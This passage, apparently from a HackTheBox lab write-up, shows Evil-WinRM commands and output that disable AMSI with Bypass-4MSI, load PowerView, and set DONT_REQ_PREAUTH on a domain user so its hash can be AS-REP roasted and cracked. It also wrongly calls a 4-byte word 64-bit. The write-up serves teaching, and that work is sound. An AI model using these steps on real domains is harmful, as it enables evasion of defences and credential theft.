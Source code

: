     [+] Bypass-4MSI 
    [+] Dll-Loader 
    [+] Donut-Loader 
    [+] Invoke-Binary

    *Evil-WinRM* PS C:\programdata> Bypass-4MSI                                               
    [+] Patched! :D



Once I do that, I can load `PowerView.ps1`:



    *Evil-WinRM* PS C:\programdata> Import-Module .\PowerView.ps1                             



### Get AS-REP Hash

In [Forest](/htb-forest.md#as-rep-roasting) I used AS-REP
Roasting to get a foothold on the machine. Here, because I can edit the
attributes for the user, I'm going to enable the `DONT_REQ_PREAUTH`
flags on the jorden account, and then get that same hash and crack it.

If I look at what is currently set for the jorden user, it's the
`NORMAL_ACCOUNT` and `DONT_EXPIRE_PASSWORD` flags:



    *Evil-WinRM* PS C:\programdata> Get-DomainUser jorden | ConvertFrom-UACValue

    Name                           Value
    ----                           -----
    NORMAL_ACCOUNT                 512
    DONT_EXPIRE_PASSWORD           65536



For each user, there's a 4-byte (64-bit) word that represents [various
flags for
userAccountControl](http://www.selfadsi.org/ads-attributes/user-userAccountControl.htm).
The bit for `UF_DONT_REQUIRE_PREAUTH` is 4194304. So I can XOR that bit
(flip it to on) with the following command:



    *Evil-WinRM* PS C:\programdata> Set-DomainObject -Identity jorden -XOR @{useraccountcontrol=4194304} -Verbose
    Verbose: [Get-DomainSearcher] search base: LDAP://DC=MEGACORP,DC=LOCAL
    Verbose: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=jorden)(name=jorden)(displayname=jorden))))
    Verbose: [Set-DomainObject] XORing 'useraccountcontrol' with '4194304' for object 'jorden'
    *Evil-WinRM* PS C:\programdata> Get-DomainUser jorden | ConvertFrom-UACValue

    Name                           Value
    ----                           -----
    NORMAL_ACCOUNT                 512
    DONT_EXPIRE_PASSWORD           65536
    DONT_REQ_PREAUTH               4194304
